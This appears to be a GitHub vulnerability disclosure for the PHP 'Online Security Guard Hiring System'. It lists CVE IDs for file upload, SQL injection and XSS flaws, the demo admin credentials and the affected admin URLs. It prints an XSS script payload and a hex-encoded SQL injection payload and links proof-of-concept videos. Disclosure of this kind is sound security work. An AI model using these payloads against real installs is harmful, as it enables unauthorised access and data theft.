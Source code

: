 
# Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ EXPLOIT-AUTHOR : Noflag(CHT Security)
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ CVE ID: CVE-2023-36119、CVE-2023-39551、CVE-2023-39552
+ https://nvd.nist.gov/vuln/detail/CVE-2023-36119 -> CVSS 9.8 Unrestricted Upload of File with Dangerous Type
+ https://nvd.nist.gov/vuln/detail/CVE-2023-39551 -> CVSS 9.8 SQL Injection
+ https://nvd.nist.gov/vuln/detail/CVE-2023-39552 -> CVSS 3.4 Cross-Site Scripting (XSS)
+ ref: https://www.chtsecurity.com/news/0dbe8e1d-0a6c-4604-9cf1-778ddc86a8c1
  + https://www.chtsecurity.com/news/285b9375-ba65-4f61-a02a-a575337dc86c

**Affecr URL**
+ XSS
  + http://localhost/osghs/admin/admin-profile.php --> Admin Name
  + http://localhost/osghs/admin/search.php --> Search Booking
  + http://localhost/osghs/search-request.php -->  Search Booking
  + http://localhost/osghs/admin/view-booking-detail.php?bookingid=XXX 

payload -> <script>alert(1)</script> 

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/44e50c20-6d7f-454e-86ef-13814460ad2b)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/eb1b3b57-ba6e-4d7a-bccc-ad90a017e36a)
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/340d324d-ee0a-4119-b4bf-dd0824ec0189)

+ SQL injection

payload -> <@hex_entities>9999&#x53;ELECT * FROM information_schema.tables<@/hex_entities>

+ http://localhost/osghs/admin/search.php

+ POC
  
https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/667cad95-bf9d-4636-9d7b-2145e1a68963

https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/deb3e42b-3a88-4270-b0ee-10c2a70ff1be



+ File Upload Vulnerability


https://github.com/Trinity-SYT-SECURITY/XSS_vuln_issue/assets/96654161/5c58eec7-7567-43d8-be6b-dce327edec9b





